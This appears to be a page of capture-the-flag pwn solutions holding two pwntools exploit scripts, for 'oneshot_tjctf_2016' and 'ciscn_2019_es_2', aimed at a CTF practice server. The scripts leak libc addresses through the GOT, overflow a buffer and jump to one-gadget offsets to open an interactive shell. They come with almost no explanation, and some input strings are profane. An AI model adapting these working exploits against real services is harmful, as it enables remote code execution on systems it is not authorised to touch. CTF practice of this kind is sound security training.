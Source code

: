   本地能跑出来远程跑不成，gg

  

* ### oneshot_tjctf_2016

  ```python
  from pwn import *
  r = remote('pwn.buuoj.cn', 20082)
  elf = ELF('./oneshot_tjctf_2016')
  libc = ELF('./x64_libc.so.6')
  puts_got = elf.got['puts']
  puts_libc = libc.symbols['puts']
  one_libc = 0x45216
  r.sendline(str(puts_got))
  r.recvuntil('Value: ')
  puts = int(r.recvuntil('\n',drop = True),16)
  libc_base = puts - puts_libc
  log.success(hex(libc_base))
  fuck = libc_base + one_libc
  r.sendline(str(fuck))
  r.interactive()
  ```

* ### ciscn_2019_es_2

  ```python
  from pwn import *
  r = remote('pwn.buuoj.cn',20174)
  #context.log_level = 'debug'
  elf = ELF('./ciscn_2019_es_2')
  libc = ELF('./x86_libc.so.6')
  main = 0x80485ff
  puts_got = elf.got['puts']
  puts_libc = libc.symbols['puts']
  call_puts = 0x804861D
  
  payload = 'a'*0x20+p32(puts_got)+'b'*8+p32(main)
  r.sendline('nmsl')
  r.sendline(payload)
  payload = 'a'*0x20+p32(puts_got)+'b'*8+p32(call_puts)
  r.sendline('fuck')
  r.recvuntil('Hello, ')
  r.send(payload)
  r.recvuntil(payload)
  r.recv(25)
  libc_base = u32(r.recv(4)) - puts_libc
  log.success(hex(libc_base))
  one = libc_base + 0x3a80c
  
  payload = 'a'*0x2c+p32(one)
  r.sendline('wdnmd')
  r.sendline(payload)
  r.interactive()
  ```
